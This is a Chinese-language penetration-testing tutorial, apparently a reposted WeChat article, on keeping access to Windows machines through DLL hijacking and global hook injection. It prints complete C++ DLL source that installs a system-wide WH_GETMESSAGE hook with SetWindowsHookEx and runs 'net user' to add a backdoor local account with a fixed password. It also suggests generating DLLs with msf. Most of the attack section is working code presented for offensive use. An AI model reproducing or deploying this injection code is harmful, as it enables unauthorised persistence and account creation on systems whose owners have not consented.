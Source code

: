> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/zD89r7DmYeh-BckddaRu3A)

在渗透过程中有时候为了权限维持或者其他等一些操作，比如以前的搜狗输入法可以替换 dll 文件当用户切换输入法就会去加载我们替换的 dll 文件，dll 文件可以自己编写一些 net user 或者其他的一些方法，也可以通过 msf 等来生成 dll 文件进行替换。

0x01 Global hook Inject
=======================

windows 中一般应用都是通过消息机制的，操作系统提高了钩子，他的作用就是用来截获和监视系统的这些消息。

**局部钩子**：针对某个线程的。 **全局钩子**：针对整个系统基于消息的应用。该钩子需要 dll 文件，在 dll 中实现对应的钩子函数。

使用 **SetWindowsHookEx** 安装 **WH_GETMESSAGE** 类型的钩子，并且钩子进程函数在一个 DLL 中，则该 DLL 可以实现全局注入

注：WH_GETMESSAGE 用来钩 PostMessage 消息。

**SetWindowsHookEx:**

```
HHOOK WINAPI SetWindowsHookEx(  _In_ int idHook，  _In_ HOOKPROC lpfn，  _In_ HINSTANCE hMod，  _In_ DWORD dwThreadId);
```

```
idHook:钩子的类型lpfn:指向钩子程序的指针，钩子过程函数。hMod:dll函数模块句柄，DllMain的第一个参数dwThreadId:hook程序关联的线程的ID。如果为0表示与系统关联的所有进程
```

如果函数执行成功则返回的是钩子过程的句柄。反之如果执行失败返回 NULL。

**DLL 实现代码：**

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。#include "pch.h"#include <Windows.h>HHOOK g_hHook;HMODULE g_hModule;LRESULT CALLBACK GetMsgProc(    _In_ int    code,    _In_ WPARAM wParam,    _In_ LPARAM lParam){    return CallNextHookEx(g_hHook, code, wParam, lParam);}BOOL LoadHook(void) {    g_hHook = SetWindowsHookEx(WH_GETMESSAGE, (HOOKPROC)GetMsgProc, g_hModule, 0);    if (g_hHook) {        WinExec("net user aspnet '1qaz@WSX' /add", SW_NORMAL);        MessageBox(NULL, TEXT("load successfully"), TEXT("title"), MB_OK);        return TRUE;    }    else {        return FALSE;    }}VOID UnloadHook(void){    if (g_hHook)        UnhookWindowsHookEx(g_hHook);}BOOL APIENTRY DllMain( HMODULE hModule,                       DWORD  ul_reason_for_call,                       LPVOID lpReserved                     ){    switch (ul_reason_for_call)    {    case DLL_PROCESS_ATTACH:        g_hModule = hModule;        MessageBox(NULL, TEXT("loading"), TEXT("title"), MB_OK);        break;    case DLL_THREAD_ATTACH:    case DLL_THREAD_DETACH:    case DLL_PROCESS_DETACH:        break;    }    return TRUE;}
```

**DLL 的实现过程：**

```
1.设置钩子2.取消钩子3.钩子程序的函数4.导出相关功能
```

**钩子的回调函数：**

```
LRESULT CALLBACK GetMsgProc(    _In_ int    code,    _In_ WPARAM wParam,    _In_ LPARAM lParam){    return CallNextHookEx(g_hHook, code, wParam, lParam);}
```

回调函数的参数和返回值都是固定的，CallNextHookEx 函数表示将当前钩子传递给钩子链的笑一个钩子，第一个参数指定的就是当前钩子的句柄 g_hHook
